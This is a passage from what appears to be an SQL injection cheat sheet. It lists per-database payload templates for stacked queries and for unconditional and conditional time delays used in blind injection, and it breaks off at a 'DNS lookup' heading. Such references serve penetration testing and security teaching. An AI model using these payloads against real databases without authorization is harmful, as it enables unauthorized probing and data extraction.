 ## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

|            |                                                        |
| ---------- | ------------------------------------------------------ |
| Oracle     | `Does not support batched queries.`                    |
| Microsoft  | `QUERY-1-HERE; QUERY-2-HERE QUERY-1-HERE QUERY-2-HERE` |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE`                           |
| MySQL      | `QUERY-1-HERE; QUERY-2-HERE`                           |

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

## Time delays

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

|            |                                       |
| ---------- | ------------------------------------- |
| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT SLEEP(10)`                    |

## Conditional time delays

You can test a single Boolean condition and trigger a time delay if the condition is true.

|            |                                                                                                                |
| ---------- | -------------------------------------------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`                                                              |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`                                |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`                                                                 |

## DNS lookup
